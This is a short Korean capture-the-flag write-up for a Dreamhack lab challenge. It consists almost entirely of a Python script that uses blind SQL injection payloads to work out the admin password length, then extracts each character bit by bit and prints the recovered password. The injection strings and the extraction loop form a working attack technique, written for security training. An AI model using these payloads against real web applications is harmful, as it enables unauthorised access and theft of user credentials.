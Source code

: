 <br/><br/>

### 익스플로잇
#### 익스플로잇 코드(blind_sqli_advanced.py)
```python
from requests import get # 파이썬의 requests 모듈을 이용

host = "http://host3.dreamhack.games:9745/" # host는 문제의 접속 정보에 따라 변경함


# 1. admin 패스워드 길이 찾기
password_length = 0 # admin 패스워드의 길이를 저장

# 비밀번호의 길이를 찾을 때까지 admin 패스워드의 길이를 1씩 증가시켜가며 반복함
while True:
    password_length += 1
    query = f"admin' and char_length(upw) = {password_length}-- -"
    r = get(f"{host}/?uid={query}")
    if "exists" in r.text: # "exists"가 응답으로 반환된 값에 포함되어 있다면 에러가 발생했다는 의미임
        break

print(f"password length: {password_length}")


password = "" # 각 위치별 문자를 저장하기 위한 변수
for i in range(1, password_length + 1): # i: 현재 탐색하고 있는 패스워드 내 문자의 위치
    # 2. i번째 위치의 문자의 비트열 길이 찾기
    bit_length = 0
    while True:
        bit_length += 1
        query = f"admin' and length(bin(ord(substr(upw, {i}, 1)))) = {bit_length}-- -"
        r = get(f"{host}/?uid={query}")
        if "exists" in r.text:
            break
    print(f"character {i}'s bit length: {bit_length}")
    
    # 3. i번째 위치의 문자의 비트열을 추출 (한글의 경우 최대 24번, 아스키 코드의 경우 최대 8번의 요청을 수행함)
    bits=""
    for j in range(1, bit_length + 1):
        query = f"admin' and substr(bin(ord(substr(upw, {i}, 1))), {j}, 1) = '1' -- -"
        r = get(f"{host}/?uid={query}")
        if "exists" in r.text:
            bits += "1"
        else:
            bits += "0"
    print(f"character {i}'s bits: {bits}")
    
    # 4.i번째 위치의 문자의 비트열을 문자로 변환하고 해당 문자를 password 변수에 추가함
    password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")

# 5. 비트 연산을 이용한 Blind SQL Injection 공격을 수행하여 얻은 패스워드를 출력함
print(f"password: {password}")
```

